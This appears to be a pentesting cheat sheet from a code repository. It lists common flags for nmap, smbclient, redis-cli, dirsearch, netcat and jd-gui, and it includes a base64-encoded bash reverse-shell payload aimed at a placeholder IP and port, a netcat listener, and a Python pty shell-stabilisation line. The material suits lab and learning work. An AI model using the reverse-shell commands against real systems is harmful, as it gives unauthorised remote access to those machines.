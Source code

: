 # 💻🔐 Cybersecurity
Recopilation of usefull information for pentesting.  
 
nmap
---
```-sV``` : service version detection  
```-sC``` : scan with default scripts, vulnerability detection, service enumeration, and more...  
```-v``` : verbose mode  
```-p-``` : scan all ports, specifies a range of ports from 1 to 65535  
```-T5``` :  timing template for the scan, attempt to scan as fast as possible  

bash
---
```echo "bash -i >& /dev/tcp/YourIp/YourPort 0>&1" | base64 -w 0``` encoding a Bash reverse shell payload using base64

smbclient
---
```//address/Workspace``` : SMB share location  
```-U Username``` : connect to the SMB with the given username  
```-N``` : no password should be provided for authentication  
#### client session
```ls``` : list files  
```cd DirName``` : change dir  
```get FileName``` : downloads the file  
```put FileName``` : upload the file  
```del FileName``` : deletes the file  
```mkdir DirName``` : create dir  
```rmdir DirName``` : delete dir  
```quit``` : Exit SMB client  

redis-cli
---
```-h HOST``` : host address of the Redis server you want to connect to  

python3 dirsearch
---
```-u TargetURL``` : specify the target URL to scan  

netcat
---
```nc -nvlp PORT``` start a listening service on port  

jd-gui
---
```jd-gui FileName``` opens the file on java decompiler

shell-stabilization
---
```python3 -c "import pty; pty.spawn('/bin/bash)"``` prevents you from killing your reverse shell and adds proper shell functionalities


